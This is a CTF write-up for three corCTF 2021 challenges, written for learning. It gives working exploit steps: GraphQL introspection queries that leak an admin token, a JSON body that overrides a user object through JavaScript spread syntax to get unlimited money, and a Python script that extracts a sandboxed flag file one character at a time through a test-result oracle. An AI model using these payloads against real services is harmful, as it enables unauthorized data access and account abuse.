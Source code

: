 ```yaml
---
title: "CTF - corCTF 2021"
categories: [ctf]
date: 2021-02-20
comments: true
image: /images/writeups/corCTF2021/logo.png
description: CTF - corCTF 2021
favicon: /images/writeups/corCTF2021/favicon.ico
---
```


# corCTF 2021

<p align="center">
  <img src="/images/writeups/corCTF2021/logo.png" width="30%"/>
</p>

Welcome! I've participated on my own in this CTF for team [ISwearIGoogledIt](https://ctftime.org/team/109689) and got some challenges! I focused on the web ones, but had two from crypto and one from misc. I enjoyed the web ones, learned a lot from graphql and javascript and its spread syntax.

<p align="center">
  <img src="/images/writeups/corCTF2021/rank.png" width="70%"/>
</p>

---

Challenge index:

### Web
- [devme](#devme)
- [buyme](#buyme)

### Misc
- [yeetcode](#yeetcode)

<small><i><a href="https://github.com/kashmir54/md-toc">Table of contents generated with md-toc</a></i></small>


---

# Web

## devme

an ex-google, ex-facebook tech lead recommended me this book!

https://devme.be.ax


First thing was to check the functionality of the website and I fond this interesting. With the email sent, the JS makes a call to a graphql endpoint which takes a JSON as an input with the name/email:

<p align="center">
  <img src="/images/writeups/corCTF2021/Web/1_formjs.png" width="70%"/>
</p>

```javascript
document.getElementById('form').onsubmit = async e => {
  e.preventDefault();

  const email = document.getElementById('email').value;

  let res = await (await fetch('/graphql', {
	method: 'POST',
	headers: {
	  'Content-Type': 'application/json'
	},
	body: JSON.stringify({
	  query,
	  variables: { email }
	})
  })).json();

  if (res.data) {
	document.getElementById('form-wrapper').innerHTML = `<h2 class="form-heading 
			text-center">Thanks, you'll hear from us soon!</h2>`
  }

  return false;
}
```

For the first run I debugged the JS and res variable was:

username: "bb0b9d32cdba541ee0bf7ea8acc5b166e09c429a5493f15a2cae714b15f84d33"

Other run obtained

username: "e17fb2b1415f1a670810aa54e23042818fdd93d4e873f7e2c07c421ea598acc7"


Seems like the Graphql is executing the query set on the parameter?

<p align="center">
  <img src="/images/writeups/corCTF2021/Web/1_token.png" width="90%"/>
</p>

I prepared the following payload in BurpSuite and sent it to the server:

- Query:

```
query "mutation createUser($email: String!) {\n\tcreateUser(email: $email) {\n\t\tusername\n\t}\n}\n"
variables {…}
email "test@test.com"
```

<p align="center">
  <img src="/images/writeups/corCTF2021/Web/1_graphql.png" width="90%"/>
</p>

Yes it does. I have never used Graphql so I had to get a grasp of it with the [documentation](https://graphql.org/learn/queries/) to understand what's going on and how it works.
Current query send every time is this one:

```json
{
	"query" : "mutation createUser($email: String!){\n\tcreateUser(email: $email) {\n\t\tusername\n\t}\n}\n",
	"variables" : {"email" : "test@test.com"}
}
```

To enumarate the objects in the API we can use the following query. [HackTricks always helps](https://book.hacktricks.xyz/pentesting/pentesting-web/graphql) and I also saw it on this [great write up](https://jaimelightfoot.com/blog/hack-in-paris-2019-ctf-meet-your-doctor-graphql-challenge/):

- Query:

```json
{
	"query":"{__schema{\n\t queryType{\n\t fields{\n\t name\n}\n}\n}\n}",
	"variables":{"email":"test@test.com"}
}
```

<p align="center">
  <img src="/images/writeups/corCTF2021/Web/1_graphql.png" width="90%"/>
</p>

We can see the object flag. Let's work on crafting a payload to retrieve its content.
To get more information:

- Query:

```json
{
	"query":"{__schema {types {name}}}",
	"variables":{"email":"test@test.com"}
}
```

Response

<p align="center">
  <img src="/images/writeups/corCTF2021/Web/1_2_graphql.png" width="90%"/>
</p>

Let's retrieve the users by the username (since we saw that the response to create user was a user hash):

- Query:

```json
{
	"query":"{users {username}}",
	"variables":{"email":"test@test.com"}
}
```

Response:

<p align="center">
  <img src="/images/writeups/corCTF2021/Web/1_3_graphql.png" width="90%"/>
</p>


Okey, now I know something more about Graphql. Following the same syntax, I will try to obtain the content from flag:

- Query:

```json
{"query":"{flag}"}
```

Response Error:

```json
{
	"message":"Field \"flag\" argument \"token\" of type \"String!\" is required, but it was not provided."
}
```

From the message we suppose that there is a token that will be used to obtain the flag... What if the user _admin_ had two attributes _username_ and _token_? Let's give it a try:

- Query:

```json
{"query":"{users {username token}}"}
```

Response:

```json
{"data":{
  "users":[
	{
	  "username":"admin",
	  "token":"3cd3a50e63b3cb0a69cfb7d9d4f0ebc1dc1b94143475535930fa3db6e687280b"
	},
	{
	  "username":"b82d9af8a6226c072bcd811e7a009ffb36b2ad88be67ac396d170fe8e2f1de7c",
	  "token":"5568f87dc1ca15c578e6b825ffca7f685ac433c1826b075b499f68ea309e79a6"
	},
	{"...":"..."}
```

Now let's try to retrieve the flag using the admin token:

- Query:

```json
{
  "query":"{flag(token:\"3cd3a50e63b3cb0a69cfb7d9d4f0ebc1dc1b94143475535930fa3db6e687280b\")}"
}
```

Response:

```json
{"data":{"flag":"corctf{ex_g00g13_3x_fac3b00k_t3ch_l3ad_as_a_s3rvice}"}}
```

We have the flag:

<p align="center">
  <img src="/images/writeups/corCTF2021/Web/1_7_burpflag.png" width="90%"/>
</p>


``` corctf{ex_g00g13_3x_fac3b00k_t3ch_l3ad_as_a_s3rvice} ```


Great, I could learn how GraphQL works and wanted to go further. Now that I have understood how it works and how to enumerate manually. I found a tool from [swisskyrepo](https://github.com/swisskyrepo) similar to sqlmap, it's called [GraphQLmap](https://github.com/swisskyrepo/GraphQLmap).
I saw how it works and makes the recon task so much easier:

```
python3 graphqlmap.py -u https://devme.be.ax/graphql -v --method POST 
```

<p align="center">
  <img src="/images/writeups/corCTF2021/Web/1_4_graphqlmap.png" width="70%"/>
</p>

Not only enumerate, but also interact with the API:

<p align="center">
  <img src="/images/writeups/corCTF2021/Web/1_5_graphqlmap.png" width="70%"/>
</p>

<p align="center">
  <img src="/images/writeups/corCTF2021/Web/1_6_flag.png" width="70%"/>
</p>


```corctf{ex_g00g13_3x_fac3b00k_t3ch_l3ad_as_a_s3rvice}```


## buyme
I made a new site to buy flags! But no hoarding, okay :<

I enjoyed this one so much! So let's dive in:

We land into a website where we can register, log in and buy flags. By default, we have 100$ and buy four flags, but not the one we want, the CTF flag.

<div display="grid">
  <img src="/images/writeups/corCTF2021/Web/2_01.png" width="48%"/>
  <img src="/images/writeups/corCTF2021/Web/2_02.png" width="48%"/>
</div>

They provided us the code, so I took a look into it. Most interesting parts were:

- The access to the flag storage and the buying process:

```javascript
const fs = require("fs");

const flags = new Map();
for(let flag of JSON.parse(fs.readFileSync("flags.json")).flags) {
	if(flag.name === "corCTF") {
		flag.text = process.env.FLAG || "corctf{test_flag}";
	}
	flags.set(flag.name, flag);
}

const users = new Map();

const buyFlag = ({ flag, user }) => {

	if(!flags.has(flag)) {
		throw new Error("Unknown flag");
	}
	if(user.money < flags.get(flag).price) {
		throw new Error("Not enough money");
	}

	user.money -= flags.get(flag).price;
	user.flags.push(flag);
	users.set(user.user, user);
};

module.exports = { flags, users, buyFlag };
```

- The api.js where the content is served:

```javascript
const express = require("express");
const bcrypt = require("bcrypt");

const router = express.Router();

const db = require("../db.js");

const requiresLogin = (req, res, next) => {
	if(!req.user) {
		return res.redirect("/?error=" + encodeURIComponent("You must be logged in"));
	}
	next();
};

router.post("/register", async (req, res) => {
	let { user, pass } = req.body;
	if(!user || !pass) {
		return res.redirect("/?error=" + encodeURIComponent("Missing username or password"));
	}
	if(db.users.has(user)) {
		return res.redirect("/?error=" + encodeURIComponent("A user already exists with that username"));
	}
	db.users.set(user, {
		user,
		flags: [],
		money: 100,
		pass: await bcrypt.hash(pass, 12)
	});
	res.cookie('user', user, { signed: true, maxAge: 1000*60*60*24 });
	res.redirect("/");
});

router.post("/login", async (req, res) => {
	let { user, pass } = req.body;
	if(!user || !pass) {
		return res.redirect("/?error=" + encodeURIComponent("Missing username or password"));
	}
	if(!db.users.has(user)) {
		return res.redirect("/?error=" + encodeURIComponent("No user exists with that username"));
	}
	if(!await bcrypt.compare(pass, db.users.get(user).pass)) {
		return res.redirect("/?error=" + encodeURIComponent("Incorrect password"));
	}

	res.cookie('user', user, { signed: true, maxAge: 1000*60*60*24 });
	res.redirect("/");
});

//Special attention here:
router.post("/buy", requiresLogin, async (req, res) => {
	if(!req.body.flag) {
		return res.redirect("/flags?error=" + encodeURIComponent("Missing flag to buy"));
	}
	try {
		db.buyFlag({ user: req.user, ...req.body });
	}
	catch(err) {
		return res.redirect("/flags?error=" + encodeURIComponent(err.message));
	}

	res.redirect("/?message=" + encodeURIComponent("Flag bought successfully"));
});

module.exports = router;
```

At the first glimpse I thought, maybe I can register with infinite money and buy the flag, but after some crazy ideas I found no way to exploit the user creation, no JSON inyection was possible in this piece of code:

```javascript
db.users.set(user, {
  user,
  flags: [],
  money: 100,
  pass: await bcrypt.hash(pass, 12)
});
```

Then I just focused on the buying process. And found this piece of code interesting, specially in the arguments and the [spread syntax (...)](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Operators/Spread_syntax) with a user input after it (**req.body**):

```javascript
router.post("/buy", requiresLogin, async (req, res) => {
	if(!req.body.flag) {
		return res.redirect("/flags?error=" + encodeURIComponent("Missing flag to buy"));
	}
	try {
		//Buying a flag with spread argument controlled by a user
		db.buyFlag({ user: req.user, ...req.body });
	}
	catch(err) {
		return res.redirect("/flags?error=" + encodeURIComponent(err.message));
	}

	res.redirect("/?message=" + encodeURIComponent("Flag bought successfully"));
});
```

Let's check the request when we buy the Indian flag:

<p align="center">
  <img src="/images/writeups/corCTF2021/Web/2_03.png" width="70%"/>
</p>

We can see that a POST request is sent with variable user equals to the user obtained in the session and the _flag=India_ set in the resquest body. Then, the buyFlag function is called.

```javascript
const buyFlag = ({ flag, user }) => {

	if(!flags.has(flag)) {
		throw new Error("Unknown flag");
	}
	if(user.money < flags.get(flag).price) {
		throw new Error("Not enough money");
	}

	user.money -= flags.get(flag).price;
	user.flags.push(flag);
	users.set(user.user, user);
};
```

I started thinking... Maybe I can spoof the user object at the call **{ user: req.user, ...req.body }** by adding in the body request a key called **user**, then this **user** will be the last at the function called and will substitute the one provided at the beginning. 

The key for this challenge is how we send that information. I'm currently learning and it took me some thinking for this. I used Burp Suite Repeater for this attack and to test different options or ideas. In this process I used the provided code to deploy the web server and to debug the payload type and how the payload was injected in the spread syntax.

First I tried the following payload, but no effect took placed because req.body won't parse the user and place it as it is:

```
POST /api/buy HTTP/1.1
Host: buyme.be.ax
Content-Type: application/x-www-form-urlencoded
Cookie: user=s%3Akash.hWxlfYBnVsfOT6FEyD7nAloOEFSk7kX4%2BHCCYdnKBVk

flag=corCTF&user={}

or 

flag=corCTF&user={"kash":{"flags":[],"money":10000000000000000000000000000,
  "pass":"$2a$12$e6.1cSQ4ynSUXDTN5HvkN.RlAqWDOtOqHL3twe/wRD77MBKKELJZO"
}}
```

Then while debugging I found the key, sending an object. How? Instead of sending parameters and strings, let's send a JSON object. To do it, I changed the header Content-Type from _x-www-form-urlencoded_ to _application/json_ and spoof of money variable and set it to **1e400** for example:


```
POST /api/buy HTTP/1.1
Host: buyme.be.ax
Content-Type: application/json
Cookie: user=s%3Akash.hWxlfYBnVsfOT6FEyD7nAloOEFSk7kX4%2BHCCYdnKBVk

{"flag":"corCTF",
	"user":{
		"user": "kash",
		"flags": [],
		"money": 1e400,
		"pass":"$2b$12$e4fanJaZOX1pwZTVxsHcZOIuGp.3Ti27FtVnesFrURw4eSWfY6aGi"
	}
}
```

We can see that the request is responding flag bought successfully.
<p align="center">
  <img src="/images/writeups/corCTF2021/Web/2_0.png" width="70%"/>
</p>

We can go to my flag inventory and saw the flag (it shows two because I sent the request twice):

<p align="center">
  <img src="/images/writeups/corCTF2021/Web/2_1_flag.png" width="70%"/>
</p>

```corctf{h0w_did_u_steal_my_flags_you_flag_h0arder??!!}```

Really fun and learned a lot.

---

# Misc

## yeetcode
Brush up on your coding skills and ace your next interview with YeetCode! Flag is at ./flag.txt
https://yeetcode.be.ax

We enter in the website and find that there is a challenge for coding:

<p align="center">
  <img src="/images/writeups/corCTF2021/Web/1_6_flag.png" width="70%"/>
</p>

With the following input (python code that meets the requirements), it shows that there are 10 test cases:

```python
def f(a, b):
  return a+b
```

- Message: You passed 10/10 test cases. Congrats!


On the provided code, we can see that there are two fixes test cases, the rest is random:

- Test 1: 2+3 = 5
- Test 2: 5+7 = 12

The provided code:

```python
from flask import Flask, render_template, request, session
import random, epicbox, os

# docker pull 

epicbox.configure(
	profiles=[
		epicbox.Profile('python', 'python:3.9.6-alpine')
	]
)

app = Flask(__name__)
app.secret_key = os.urandom(16)
flag = open('flag.txt').read()

@app.route('/')
def yeet():
	return render_template('yeet.html')

@app.route('/yeet')
def yeetyeet():
	return render_template('yeetyeet.html')

@app.route('/yeetyeet', methods=['POST'])
def yeetyeetyeet():
	if 'run' in session and session['run']:
		return {'error': True, 'msg': 'You already have code running, please wait for it to finish.'}
	session['run'] = True
	code = request.data
	tests = [(2, 3, 5), (5, 7, 12)]
	for _ in range(8):
		a, b = random.randint(1, 100), random.randint(1, 100)
		tests.append((a, b, a + b))
	
	cmd = 'from code import f\n'
	outputs = []
	for case in tests:
		a, b, ans = case
		cmd += f'print(f({a}, {b}))\n'
		outputs.append(str(ans))

	files = [{'name': 'flag.txt', 'content': flag.encode()}, {'name': 'code.py', 'content': code}]
	limits = {'cputime': 1, 'memory': 16}
	result = epicbox.run('python', command='python3', stdin=cmd, files=files, limits=limits)

	if result['exit_code'] != 0:
		session['run'] = False
		return {'error': True, 'msg': 'Oops! Your code has an error in it. Please try again.'}
	actual = result['stdout'].decode().strip().split('\n')

	passes = 0
	fails = 0
	for i in range(len(outputs)):
		if outputs[i] == actual[i]:
			passes += 1
		else:
			fails += 1

	session['run'] = False
	return {'error': False, 'p': passes, 'f': fails}

if __name__ == "__main__":
	app.run(host='0.0.0.0', port=5000)
```

We cannot just place a print in the code and print the flag, because there is no output, but we can access and read the flag to make operations over it.
Since there are two fixed set cases, we can use them to bruteforce each char of the flag whenever or code gets in that specific test. Then, we have contron on triggering the error only in one of the test cases, for example:

Bruteforece first char:
if test case 2+3 and first char is a, return correct response (5), if it is not a, send failed response
if test case is not 2+3, return the correct sum (a+b)

In this way, if the recieve 10/10 tests passed, we know that the guessed letter is correct, otherwise it wasn't.
The following code is proposed:

```python

import requests

def guess_it(flag_index):

	a, b = 97, 126

	for guess in range(a,b):

		print("Guess ascii: {} - {}".format(guess, chr(guess)))

		r = requests.post(url=url, data = input_code.format(flag_index, guess), cookies = cookie)
		#print(r.json())
		# If read char if right:
		if r.json()['p'] == 1:

			print('Found: ' + chr(guess))
			return chr(guess)

	return 0


input_code = """def f(a, b):
	if a==2 and b==3:
		f = open("flag.txt", "rb")
		char = f.read()[{}]
		if char == {}:
			return 5
		else:
			return 1234
	else:
		return a"""


url = "https://yeetcode.be.ax/yeetyeet"
cookie = {"session": "eyJydW4iOmZhbHNlfQ.YSBRoA.tysIiP53vCiR6K95eHZA_1hxk30"}

flag = []

for flag_index in range(0,50):
	flag.append(guess_it(flag_index))
	print(''.join(flag))
```

It will take so long to get it by using linear search O(n)... Let's go for an easy binary search strategy (and also, use all posible ascii characters (from 32 to 126)):

```python
import requests

def guess_it(flag_index):

	a, b = 32, 126
	mid = (a+b)//2

	while a < b:

		print("Guess ascii: {} - {}".format(mid, chr(mid)))

		r = requests.post(url=url, data = input_code.format(flag_index, mid), cookies = cookie)
		#print(r.json())
		# If read char if right:
		if r.json()['p'] == 1:
			b = mid
		else:
			a = mid + 1
		mid = (a+b)//2

	
	return chr(mid-1)


input_code = """def f(a, b):
	if a==2 and b==3:
		f = open("flag.txt", "rb")
		char = f.read()[{}]
		if char < {}:
			return 5
		else:
			return 1234
	else:
		return a"""

url = "https://yeetcode.be.ax/yeetyeet"
cookie = {"session": "eyJydW4iOmZhbHNlfQ.YSBRoA.tysIiP53vCiR6K95eHZA_1hxk30"}

flag = []

for flag_index in range(0,50):
	flag.append(guess_it(flag_index))
	print(''.join(flag))

```

Output:

```
...
corctf{1m4g1n3_cp_g0lf_6a318df
Guess ascii: 79 - O
Guess ascii: 103 - g
Guess ascii: 91 - [
Guess ascii: 97 - a
Guess ascii: 100 - d
Guess ascii: 102 - f
Guess ascii: 101 - e
corctf{1m4g1n3_cp_g0lf_6a318dfe
Guess ascii: 79 - O
Guess ascii: 103 - g
Guess ascii: 115 - s
Guess ascii: 121 - y
Guess ascii: 124 - |
Guess ascii: 125 - }
corctf{1m4g1n3_cp_g0lf_6a318dfe}
Guess ascii: 79 - O
Guess ascii: 55 - 7
Guess ascii: 43 - +
Guess ascii: 37 - %
Guess ascii: 34 - "
Guess ascii: 33 - !
Guess ascii: 32 -  
corctf{1m4g1n3_cp_g0lf_6a318dfe}
Guess ascii: 79 - O
```

So much faster now ;)

```corctf{1m4g1n3_cp_g0lf_6a318dfe}```


That's all from this CTF, thanks for reading!